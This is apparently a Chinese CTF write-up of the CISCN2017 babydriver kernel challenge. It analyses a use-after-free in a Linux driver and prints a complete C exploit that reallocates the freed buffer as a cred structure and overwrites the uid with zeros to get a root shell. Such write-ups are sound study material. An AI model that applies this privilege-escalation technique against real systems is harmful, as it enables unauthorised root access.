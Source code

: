 ```yaml
---
layout: post
title:  "kernel题目1-CISCN2017-babydriver"
date:   2019-09-24 13:54:00
categories: pwn
tags: kernel
excerpt: CISCN2017-babydriver
mathjax: true
---
```


* content
{:toc}

### 0x00 逆向分析

#### 1. 解压镜像

压缩包中包含如下
`boot.sh  bzImage  rootfs.cpio`

```
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -monitor /dev/null -m 64M --nographic  -smp     cores=1,threads=1 -cpu kvm64,+smep
```

把 -enable-kvm 去掉之后正常启动起来了

解压rootfs.cpio

```
mkdir core
cd core
mv ../rootfs.cpio rootfs.cpio.gz
gunzip ./rootfs.cpio.gz
cpio -idmv < rootfs.cpio

```

init 脚本中发现
`insmod /lib/modules/4.4.72/babydriver.ko`

#### 2. 逆向驱动文件

1. 功能分析


* babyioctl 函数 : babyioctl(fd,command,arg) 判断command ==65537 时执行如下为device_buf 重新分配内存, kmalloc的size由arg控制

```
        kfree(babydev_struct.device_buf);
        babydev_struct.device_buf = (char *)_kmalloc(v4, 37748928LL);
        babydev_struct.device_buf_len = v4;
```

* babyrelease: 释放device_buf
* babyopen: 填充device_buf  size=64 
* babywrite: copy_from_user(babydev_struct.device_buf, buffer, v4);
* babyread: copy_to_user(buffer, babydev_struct.device_buf, v4);


2. 漏洞分析
babydev_struct是全局的，多次打开设备时，会覆盖babydev_struct。同理一个设备 free babydev_struct 过后，此时另一个设备依然可以向此处写入数据。因此造成UAF漏洞。

### 0x01 方法1 UAF利用cred
利用思路：
先打开两次设备/dev/babydev,得到两个文件描述符fd1和fd2
* fd1中申请堆块为0x8a,和cred结构一样大(查看源码或编译一个模块得到)
* 释放fd1，此时调用fork，新进程请求空间存放cred结构，正好得到了之前释放的空间，但UAF漏洞导致此时依然可以通过fd2往这段空间写值
* 使用fd2 写入足够多的0 将uid，gid都设置为0即可

cred结构定义在cred.h中 
kuid_t,kgid_t 可以查到都是4个字节

```
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
#ifdef CONFIG_KEYS
	unsigned char	jit_keyring;	/* default keyring to attach requested
					 * keys to */
	struct key __rcu *session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
};
```

编写exp如下
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

void main(){
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);

    ioctl(fd1,0x10001,0x8a);
    close(fd1);
    int pid = fork();
    if(pid<0){
        printf("fork error");
        exit(0);
    }
    else if(pid==0){
        char zeros[30] = {0};
        write(fd2,zeros,28);
        if(getuid() ==0){
            puts("[+] get root");
            system("/bin/sh");
            exit(0);
        }
    }
    else
    {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```

刚开始编写程序时一定不要忘记写全头文件，尽量不出现函数未定义的情况，否则会导致程序调用到不一样的函数

编译程序
`gcc exp.c -o exp -static`
重打包为文件镜像
`find . | cpio -o --format=newc > ../rootfs.img`


接着让我们调试看看为什么会拿到shell,关注的点在于write操作写入到了哪里,cred 结构又覆盖了哪些


fd1申请0x8a之后
q
write前后对比

运行结果如下


编译模块获取cred结构大小
还有一个问题是如何知道cred的大小，一种方法是看源码，这种方法比较慢，还容易出错。另一种方法是编译一个内核模块来查看：

```
#include <linux/init.h>
#include <linux/module.h>
#include <linux/cred.h>

MODULE_LICENSE("Dual BSD/GPL");

static int hello_init(void)
{
    printk(KERN_ALERT "sizeof cred: %d", sizeof(struct cred));
    return 0;
}

static void hello_exit(void)
{
    printk(KERN_ALERT "exit module!");
}

module_init(hello_init);
module_exit(hello_exit);
```

Makefile：

```
obj-m := cred_size.o
KERNELBUILD := /lib/modules/$(shell uname -r)/build

modules:
    make -C $(KERNELBUILD) M=$(CURDIR) modules
clean:
    make -C $(KERNELBUILD) M=$(CURDIR) clean
```


### 方法2：使用tty 结构


### 参考链接

http://pwn4.fun/2017/08/15/Linux-Kernel-UAF/
https://www.anquanke.com/post/id/86490

kernel ROP
https://www.cnblogs.com/Joe-Z/p/5651812.html
